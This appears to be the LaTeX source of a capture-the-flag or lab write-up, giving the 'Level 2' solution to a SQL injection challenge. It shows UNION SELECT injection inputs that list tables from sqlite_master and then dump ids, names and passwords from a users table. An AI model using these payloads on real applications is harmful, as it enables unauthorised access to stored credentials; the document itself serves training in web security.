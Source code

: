 \documentclass[a4paper]{article}
\begin{document}
\begin{enumerate}
\begin{itemize}
		
		\item Level 2\\
		\textbf{Solution:}\\

		input=1+Union+ALL+SELECT+1,2,3,name+from+sqlite\_master\\
		the users table became OTg5ZmMyZWM1 table\\
		input=1+Union+ALL+SELECT+1,id,name,password+from+OTg5ZmMyZWM1			
		
		\begin{figure}[H]
	    \centering
  	    \includegraphics[width=0.8\textwidth]{img/level_2.PNG}
	    \end{figure}	
		
		
	\end{itemize}


\end{enumerate}
\end{document}
